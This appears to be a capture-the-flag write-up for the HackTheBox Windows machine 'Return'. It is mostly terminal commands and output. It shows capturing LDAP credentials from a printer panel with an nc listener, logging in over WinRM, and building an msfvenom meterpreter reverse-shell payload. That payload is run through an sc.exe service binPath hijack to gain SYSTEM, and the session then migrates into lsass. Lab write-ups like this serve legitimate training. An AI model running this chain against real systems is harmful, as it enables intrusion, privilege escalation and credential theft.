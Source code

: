 # CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Return](https://www.hackthebox.com/machines/Return)

<img src="https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png" alt="Return Machine Logo" width="150"/>

- Machine type: <img src="https://hackmyvm.eu/img/windows.png" alt="Windows" width="17"/> Windows
- Machine difficulty: 🟩 Easy (3.0)

> **Return** is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

#### Skills Learned

- **Network Printer Abuse**
- **Server Operators Group Abuse**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `nc`
- `burpsuite`
- `msfvenom`
- `msfconsole`
- `netexec`
- `evil-winrm`
Windows:
- `net.exe`
- `sc.exe`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.95.241\treturn.htb' | sudo tee -a /etc/hosts

10.129.95.241	return.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p- return.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-30 16:06:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
54394/tcp open  msrpc         Microsoft Windows RPC
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://return.htb

http://return.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```

![Firefox - Return Homepage](./assets/screenshots/hackthebox_return_01.png)

**Network Printer Abuse**

![Firefox - Settings Page](./assets/screenshots/hackthebox_return_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nc -lvnp 389

listening on [any] 389 ...

[CONTINUE]
```

![Burp Suite - POST Settings](./assets/screenshots/hackthebox_return_03.png)

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.95.241] 56337
0*`%return\svc-printer�
                       1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb return.htb -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt

a200e*************************** 🚩
```

**Server Operators Group Abuse**

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer

[SNIP]

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe > revsh.exe

[SNIP]

Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload revsh.exe

[SNIP]

Info: Uploading /home/nvbla/revsh.exe to C:\Users\svc-printer\Documents\revsh.exe
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath=C:\Users\svc-printer\Documents\revsh.exe

[SC] ChangeServiceConfig SUCCESS
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.95.241:57906) at 2025-06-30 11:38:14 -0500

(Meterpreter 1)(C:\Windows\system32) >
```

```
(Meterpreter 1)(C:\Windows\system32) > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 1)(C:\Windows\system32) > migrate -N lsass.exe

[*] Migrating from 4744 to 648...
[*] Migration completed successfully.
```

```
C:\Windows\system32> type C:\\Users\\Administrator\\Desktop\\root.txt

f7d67*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
